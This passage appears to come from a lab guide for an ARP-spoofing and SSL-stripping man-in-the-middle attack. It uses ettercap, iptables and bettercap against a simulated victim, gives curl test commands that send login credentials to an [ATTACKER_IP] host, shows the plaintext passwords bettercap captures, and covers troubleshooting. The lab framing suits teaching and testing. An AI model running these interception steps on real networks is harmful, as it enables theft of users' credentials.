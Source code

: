 **Terminal 2-4:** Same as Method 1 (ettercap, iptables, victim simulator)

**View Results:**
- Open browser to `http://localhost:8081`
- See all intercepted traffic in real-time
- Click on requests to see headers and body data
- Credentials will appear in POST request bodies

## Step 5: Manual Testing (If Automated Doesn't Work)

**From Victim Machine:**
```bash
# Test normal HTTPS (should work)
curl -k -X POST https://[ATTACKER_IP]:5001/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"Employee@sinamoa.com","password":"Employee123!@#"}'

# Test if SSL is being stripped (should show in bettercap)  
curl -X POST http://[ATTACKER_IP]:5000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"Employee@sinamoa.com","password":"Employee123!@#"}'
```

## Expected Results

**In Bettercap Output:**
```
[POST] http://[IP]:5000/api/auth/login
{"email":"Employee@sinamoa.com","password":"Employee123!@#"}
```

**In Victim Terminal:**
```
[14:32:15] Sending login request to https://[IP]:5001/api/auth/login
[14:32:15] Response: 200
```

## Troubleshooting

### Problem: Victim gets HTTPS timeouts
**Solution:** Check if ARP spoofing is working:
```bash
# On victim machine, check ARP table
arp -a | grep [ATTACKER_MAC]
```

### Problem: 200 responses but no credentials captured
**Solutions:**
1. Check if IP forwarding is enabled
2. Try different bettercap proxy port (8080, 8443)
3. Verify bettercap is intercepting with `netstat -tlnp | grep 8080`
4. Use `tcpdump` method shown in Method 2
